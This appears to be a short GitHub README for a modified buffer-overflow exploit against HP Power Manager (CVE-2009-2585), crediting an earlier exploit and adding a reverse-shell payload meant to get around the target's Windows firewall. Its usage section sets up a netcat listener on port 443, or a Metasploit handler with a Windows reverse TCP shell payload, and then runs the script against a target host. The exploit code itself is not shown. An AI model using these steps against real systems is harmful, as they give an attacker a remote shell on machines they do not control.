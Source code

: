 # CVE2009-2585_HP_Power_Manager_BoF
It is a version modified of the original exploit by Muhammad Haidari (https://raw.githubusercontent.com/Muhammd/HP-Power-Manager/master/hpm_exploit.py). The modification includes a payload which allows to obtain a reverse shell to avoid to open ports in the Windows'target which the firewall's windows will be closed it.

# Usage

At firts, put a listener:

<pre> nc lvp 443 </pre>

Or using the metasploit module: 

<pre> /exploit/multi/handler with payload: windows/shell_reverse_tcp </pre>

python CVE2009-2585_HP_Power_Manager_BoF <<TARGET>>
